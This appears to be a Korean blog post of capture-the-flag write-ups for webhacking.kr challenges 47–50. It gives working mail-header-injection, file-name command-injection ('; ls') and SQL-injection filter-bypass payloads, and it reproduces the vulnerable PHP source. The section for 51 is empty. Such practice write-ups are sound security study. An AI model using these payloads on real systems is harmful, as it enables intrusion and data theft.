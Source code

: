 ```yaml
---
title: "Security: webhacking.kr 47-51"
last_modified_at: 2020-08-08T20:20:02-05:00
categories:
  - Security
tags:
  - webhacking.kr
  - 웹해킹
toc: true 
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true 
author_profile: true 
read_time: false 
---
```


---
### 47 문제풀이 (Mail Header Injection)
---
---
#### Mail Header Injection
---

**Mail Header Injection이란?**  
공격자가 메시지에 추가 헤더를 삽입하여 메일서버가 의도한 것과 다르게 동작하도록 지시하는 것으로 
이 페이지에서는 이메일 헤더에 cc(참조)나 Bcc(숨은 참조)를 추가하여 관리자에게만 
보내는 메일을 다른 사람들에게 참조를 하여 메일을 보낼 수 있는 취약점이다. 
{: .notice}

예를 들면 공격자는 메일 주소로 아래의 데이터를 리퀘스트로 보냅니다
bob@hackr.jp$0D%0ABcc: user@example.com
%0D%0A는 메일 메시지에서 개행 문자를 의미합니다. 즉 수신자에 bcc가 몰래 추가되게 됩니다.
같은 방법으로 To나 Subject 등에 임의의 메일 헤더를 쓰거나 본문에 첨부파일을 추가 하는게 가능합니다.
출처: https://blog.sonim1.com/103 [Kendrick's Blog]
{: .notice}

---
#### 문제풀이
---

47번 문제를 보니 Mail subject를 입력하는 란이 보인다. send를 눌러보자.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제47/47-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제47/47-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

Flag값을 메일로 보내주는 모양이다 그런데 이상한 점은 도착 메일이 고정되어있다. 이를 수정하거나 내 메일 주소를 추가해야한다.
{: .notice}


<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제47/47-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그냥 텍스트 창에 0D%0ACc:메일ID@naver.com를 입력해보니 엔터값이 그대로 문자로 들어가서 메일을 받을 수 없었다. 그래서 Burp suite를 활용하여 CC로 내 메일을 추가했다.
{: .notice}


<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제47/47-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제47/47-5.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그리고 Cc가 잘 들어갔음을 볼 수 있었다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제47/47-6.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제47/47-7.JPG" alt="">
  <figcaption> </figcaption>
</figure>

실제 메일로 Flag 값이 온 것을 볼 수 있었다. Clear!
{: .notice}

---
### 48 문제풀이
---

48번 문제에 들어가보니 파일을 업로드하는 란이 보인다. 파일을 업로드 하니 시간, id, 입력한 메모가 보인다.
{: .notice}


<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제48/48-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

파일을 업로드 하거 나 삭제할 때를 burp suite로 캡처해서 보니 mode=del 같은 명령어가 왔다 갔다 하는 것이 보인다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제48/48-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

어떻게 할까 고민하다가 파일명 뒤에 ; 을 붙이고 ls을 입력했다. 그리고 파일을 업로드 했는데 아무 반응이 없었다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제48/48-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

도로 파일을 삭제해보니 갑자기 파일 이름들과 함께 FLAG가 보였다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제48/48-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

Clear!
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제48/48-5.JPG" alt="">
  <figcaption> </figcaption>
</figure>


---
### 49 문제풀이
---

이 문제는 어디서 많이 봤던 문제다. 소스코드부터 보자.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제49/49-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 49</title>
</head>
<body>
<h1>SQL INJECTION</h1>
<form method=get>
level : <input name=lv value=1><input type=submit>
</form>
<?php
  if($_GET['lv']){
    $db = dbconnect();
    if(preg_match("/select|or|and|\(|\)|limit|,|\/|order|cash| |\t|\'|\"/i",$_GET['lv'])) exit("no hack");
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall49 where lv={$_GET['lv']}"));
    echo $result[0] ;
    if($result[0]=="admin") solve(49);
  }
?>
<hr><a href=./?view_source=1>view-source</a>
</body>
</html>
```

select, or, and, \, (, ), limit, , 등등을 피해 SQL injection을 해보자.
{: .notice}

```
?lv=0||id=0x61646D696E
```

or를 대신해 ||를 사용하고 ( )를 사용하지 못해서 char()대신 hex 값을 사용한다.
{: .notice}


<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제49/49-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

Clear!
{: .notice}


---
### 50 문제풀이
---

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 50</title>
</head>
<body>
<h1>SQL INJECTION</h1>
<form method=get>
id : <input name=id value='guest'><br>
pw : <input name=pw value='guest'><br>
<input type=submit>&nbsp;&nbsp;&nbsp;<input type=reset>
</form>
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']); 
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    foreach($_GET as $ck) if(preg_match("/from|pw|\(|\)| |%|=|>|</i",$ck)) exit();
    if(preg_match("/union/i",$_GET['id'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select lv from chall50 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      if($result['lv']==1) echo("level : 1<br><br>");
      if($result['lv']==2) echo("level : 2<br><br>");
    } 
    if($result['lv']=="3") solve(50);
    if(!$result) echo("Wrong");
  }
?>
<hr><a href=./?view_source=1>view-source</a>
</body>
</html>
```

 from   pw  (   ) " " %  =  >  <   "
 
?id=%a1%27&pw=guest||%00lv%00like%00%273%27%23


---
### 51 문제풀이
---



